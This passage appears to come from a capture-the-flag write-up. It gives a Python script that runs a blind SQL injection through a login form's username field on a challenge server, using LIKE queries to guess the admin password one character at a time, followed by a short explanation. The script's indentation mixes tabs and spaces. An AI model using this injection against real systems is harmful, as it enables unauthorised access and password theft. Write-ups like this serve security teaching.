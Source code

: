 The python script I wrote to demonstrate this is shown below.
```python
#!/usr/bin/env python3

import requests
import sys

# Helper function to easily see the query
def blind(query):
    url = "http://shell1.2019.peactf.com:61940/result.php"
    response = requests.post(url, data={"username":"admin' " +query+ " -- .","answer":"asd","debug":"1"})

    return response

keyspace = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$^&*()-=+'

query_left_side = "AND 1=(SELECT 1 FROM users WHERE password LIKE '"

password = ""

num_of_queries = num_of_true_queries = 0

while True:
	num_of_queries += 1
    for k in keyspace:
    	# query = admin' AND 1=(SELECT 1 FROM users WHERE password LIKE 'k%') -- .
    	# In the above, 'k' is each character that this loop tries
        query = query_left_side + k + "%')"
        response = blind(query)
        sys.stdout.write('\rPassword: '+password+k)
        if "Your answer to the security" in response.text: # If a TRUE query is returned on character k
            num_of_true_queries += 1
            query_left_side += k # Add the character to the query so we can continue with the next character
            password += k # Add the character to the password string
            break
    if num_of_queries != num_of_true_queries:
        break

print()
print("Password found!: " + password)
```

Note that the script just automates what I explained above. It will start by creating the following query.
```python
"admin' AND 1=(SELECT 1 FROM users WHERE password LIKE '" + k + "%') --."
```
Where 'k' is the variable containing each letter we are testing. After each character, it checks to see if a TRUE query is returned by checking whether the text 'Your answer to the security' is in the page. If it is, it will store it in the password variable, as well as add it to the query. Otherwise, it just continues with the next character.
